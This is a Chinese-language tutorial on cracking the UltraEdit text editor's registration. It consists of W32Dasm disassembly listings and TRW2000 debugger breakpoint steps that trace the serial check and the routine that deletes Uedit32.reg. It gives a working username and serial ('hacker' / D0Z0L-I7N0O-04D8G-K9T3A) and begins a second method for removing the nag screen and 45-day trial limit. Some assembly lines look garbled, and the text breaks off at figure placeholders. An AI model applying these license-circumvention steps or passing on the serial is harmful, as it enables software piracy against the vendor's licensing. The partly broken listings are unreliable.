0047A743 FF15 0CD85400    call dword ptr [0054D80C]
0047A75F 50               push eax
0047A760 FF75F0           push [ebp-10]
0047A763 E8500DF0FF       call 004185B8
0047A768 83C410           add esp, 00000010
0047A76B 85C0             test eax, eax
0047A76D 0F8429020000     je 0047A99C

* Possible StringData Ref from Data Obj -> "Extension License"
0047A77F 682B838800       push 0058B828
0047A784 B9DC335900       mov ecx, 005933DC
0047A7B9 50               push eax
0047A7BA E85A740900       call 00511C19

* Possible StringData Ref from Data Obj -> "REG"
```


为什么我们可判断上面的代码就是关键代码区域呢？原因有二：一是我跟踪过，二是因为在 Extension License 上方不远处有“CreateWindowExA”字样；在“Extension License”下方不远处还有个“REG”。因为 UltraEdit 要读取的文件 Uedit32.reg 就带有明显标志——REG。

根据这些现象，我分析这就是软件的关键代码区域，后来事实证明了我的分析是正确的。

好了，现在可退出 W32Dasm。运行 TRW2000，按 Ctrl+N 调出调试窗口，输入命令 **BPX 0047A763** 下断点，然后按 F5 退出。为什么要这样设断点呢？这是因为经过分析和实践证明，偏移地址 0047A763 那一行的 `call 004185B8` 是关键 CALL。

上面代码中有两个关键的 call 行，所以我们要在此下断点。接下来再次运行 UltraEdit，会中断在偏移地址 0047A763 那一行，输入 **BC\*** 清除所有断点，然后按 F8 进入此 CALL，按 F10 键一步步跟踪到下面这些代码处：

```
004185DE 395D10            cmp dword ptr [ebp+10], ebx
004185E1 0F8425030000      je 0041890C
004185E7 83F806            cmp eax, 00000006
004185EA 0F8C1C030000      jl 0041890C

（可见用户名长度需 >= 6，否则注册失败）
```

通过这些代码可看出，你输入的用户名一定要大于或等于 6 位英文字母（EAX 中存储的就是用户名长度），否则就会注册失败。按下 F10 继续执行程序后，可看到下面这些关键代码：

```
004188DD 8D45B0            lea eax, dword ptr [ebp-50]
004188E0 50                push eax
004188E1 E8FA860E00        call 00500FE0
004188E6 59                pop ecx
004188E7 85C0              test eax, eax
004188E9 59                pop ecx
004188EA 7426              je 00418912
004188EC 8D8530FFFFFF      lea eax, dword ptr [ebp+FFFFFF30]
004188F2 50                push eax
004188F3 8D45B0            lea eax, dword ptr [ebp-50]
004188F6 50                push eax
004188F7 E8E4860E00        call 00500FE0
```

当你按 F10 执行到偏移地址 004188E0 那一行时，输入 **D EAX** 可看到你输入的注册码；执行到 004188F2 那一行时，再输入 **D EAX** 可看到一长串注册码。用此初始注册码去注册，UltraEdit 会要求重新启动；重启后若不一致会删除 Uedit32.reg，导致注册失败。

> **注意**：得到上述初始注册码的最快方法是下断点：`BPX 004188F2`，中断后输入 `D EAX` 即可看到。

下面是解决办法：用刚得到的注册码注册后先别急着关闭 UltraEdit，按 Ctrl+N 激活 TRW2000，然后下断点：**BPX DeleteFileA**，按 F5 退出 TRW2000。关闭 UltraEdit 会被中断下来，向上看代码，发现如下代码：

```
015F:00448721 8B0D D8335900   MOV ECX,[005933D8]
015F:00448727 F7FB            IDIV EBX
015F:00448729 0FB6C1          MOVSX EAX,BYTE PTR ...
015F:0044872D 83C241          ADD EDX,...
015F:00448730 3BC2            CMP EAX,EDX

（对注册码进行校验比较）
```

```asm
015F:00448732 7519          JNZ 0044874D
...
015F:0044873A 8A4916        MOV CL,[ECX+16]
015F:0044873D F7FF          DIV EDI
015F:00448742 03C241        ADD EAX,[BYTE+41]
015F:00448745 3BC2          CMP EAX,EDX
015F:00448747 0F84A6000000  JZ NEAR 004487F3
...
015F:004487CD FF15C0D45400  CALL [KERNEL32!DeleteFileA]
```

```asm
Possible StringData Ref from Data Obj -> "Settings"
004AD0C4 68D4CC5800   push 0058CCD4
004AD0CF E8EAFCFFFF   call 004A1CBE
004AD0D4 A148D15900   mov eax,[0059D148]
004AD0D9 2B05...      sub eax,[0059D14C]
004AD0DF 50           push eax
004AD0E0 E8AA610500   call 0050328F
004AD0E5 83F82D       cmp eax,0000002D
004AD0E8 59           pop ecx
004AD0E9 7F0C         jg 004AD0F7
...
004AD102 758A         jne 004AD08E
```

由上面代码我们可知道，UltraEdit 在关闭时会比较第 15 位和第 23 位注册码，如果不对就删除 Uedit32.reg 文件。在偏移地址 00448730 和 0044873A 附近可得到正确字符，最终可推得正确注册码格式。

- 用户名：`hacker`
- 注册码：`D0Z0L-I7N0O-04D8G-K9T3A`

用此注册码注册后，UltraEdit 不会再提示是否注册成功，重启后也不会出现注册提示窗口。

## 图2：另类破解方法（去除 NAG 窗口和解决 45 天使用限制）

除了上面的方法，还可通过处理 NAG 窗口与 45 天使用限制来破解。文中说明使用 W32Dasm 反汇编 Uedit32.exe，在“字符串参考”中查找 `Days to expire` 相关字符串，再定位关键代码。


图 7


图 8

```asm
Possible StringData Ref from Data Obj -> "Days to expire"
004AD0C5 6880CD5800   push 0058CD80
...
```


图 9